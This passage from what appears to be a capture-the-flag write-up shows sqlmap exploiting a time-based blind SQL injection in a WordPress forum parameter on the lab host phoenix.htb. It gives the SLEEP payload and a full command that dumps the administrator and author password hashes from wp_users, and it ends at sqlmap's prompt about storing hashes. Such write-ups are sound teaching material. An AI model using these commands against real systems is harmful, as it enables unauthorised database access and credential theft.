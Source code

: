     ---
    Parameter: #1* (URI)
        Type: time-based blind 
        Title: MySQL >= 5.0.12 time-based blind - Parameter replace
        Payload: https://phoenix.htb:443/forum/?subscribe_topic=(CASE WHEN (8939=8939) THEN SLEEP(5) ELSE 89
    39 END)
    ---
    [21:45:04] [INFO] the back-end DBMS is MySQL
    [21:45:04] [WARNING] it is very important to not stress the network connection during usage of time-base
    d payloads to prevent potential disruptions 
    back-end DBMS: MySQL >= 5.0.12
    ...[snip]...



It takes about three minutes to find that, but `sqlmap` has the
injection point now.

#### Dump Phoenix / John Smith Hash

I started trying to enumerate the DB, but it's just too slow. Because
the DB is supporting WordPress, the tables and columns are well
documented. I could also install WordPress onto a local VM and look at
it more closely.

For example, [this
page](https://usersinsights.com/wordpress-user-database-tables/) shows
the columns in the `wp_users` table, which includes the `user_pass`.
Because I know that Phoenix (user id 1) is the administrator, and John
Smith (user id 5) is an author on the site, I'll dump just their hashes
using the syntax from above plus:

-   `-D wordpress` - Select the WordPress database
-   `-T wp_users` - Select the `wp_users` tables
-   `-C id,user_pass` - Select the `id` and `user_pass` columns
-   `--where "ID=1 or ID=5"` - Limit to only the two users who may be
    admins
-   `--dump` - Dump the data

This runs for about eight minutes, but does produce the two hashes:



    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T --level 5 -D wordpress -T wp_users -C id,user_pass --where "ID=1 or ID=5" --dump
    ...[snip]...
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: #1* (URI)
        Type: time-based blind
        Title: MySQL >= 5.0.12 time-based blind - Parameter replace
        Payload: https://phoenix.htb:443/forum/?subscribe_topic=(CASE WHEN (8939=8939) THEN SLEEP(5) ELSE 8939 END)
    ---
    [22:04:57] [INFO] testing MySQL
    [22:04:57] [INFO] confirming MySQL
    [22:04:57] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 8.0.0
    [22:04:57] [INFO] fetching entries of column(s) '`id`, user_pass' for table 'wp_users' in database 'wordpress'
    [22:04:57] [INFO] [INFO] fetching number of column(s) '`id`, user_pass' entries for table 'wp_users' in database 'wordpress'
    ...[snip]...
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 